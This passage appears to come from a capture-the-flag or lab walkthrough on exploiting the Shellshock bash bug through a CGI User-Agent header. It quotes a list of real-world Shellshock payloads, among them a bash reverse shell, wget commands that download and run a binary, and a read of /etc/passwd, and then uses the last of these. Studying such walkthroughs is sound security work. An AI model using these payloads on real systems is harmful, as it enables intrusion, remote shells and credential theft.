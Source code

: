 ![](<../../.gitbook/assets/3 (5) (1).JPG>)

This explains why the browser asks us to open the file in an external program or save it to disk, because it doesn't recognize the header "text/sh". If we intercept the server response, and change the header to "text/plain" for example, the output would appear in the browser.

Next, let's modify the "User-Agent" header with the shellshock command and send it, as shown below:

![](<../../.gitbook/assets/4 (3).JPG>)

We see that we are getting the 500 server error. A google search for "shellshock" returns a plethora of articles about this bug. Below is a forum post on a popular "Hacker" news feed site which shows some of the payloads that were being seen by Cloudflare back in Sept 2014:

{% embed url="https://news.ycombinator.com/item?id=8366745" %}

> () { :;}; /bin/ping -c 1 198.x.x.x
>
> () { :;}; echo shellshock-scan > /dev/udp/example.com/1234
>
> () { ignored;};/bin/bash -i >& /dev/tcp/104.x.x.x/80 0>&1
>
> () { test;};/usr/bin/wget http://example.com/music/file.mp3 -O \~/cgi-bin/file.mp3
>
> () { :; }; /usr/bin/curl -A xxxx http://112.x.x.x:8011
>
> () { :; }; /usr/bin/wget http://115.x.x.x/api/file.txt
>
> () { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd
>
> () { :; }; /bin/bash -c "if \[ $(/bin/uname -m | /bin/grep 64) ]; then /usr/bin/wget 82.x.x.x:1234/v64 -O /tmp/.osock; else /usr/bin/wget 82.x.x.x:1234/v -O /tmp/.osock; fi; /bin/chmod 777 /tmp/.osock; /tmp/.osock &

We have already tried the first one, so lets try it again with the following payload from the above list, because we are trying to get RCE and view the output:

> () { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd

![](<../../.gitbook/assets/5 (5).JPG>)
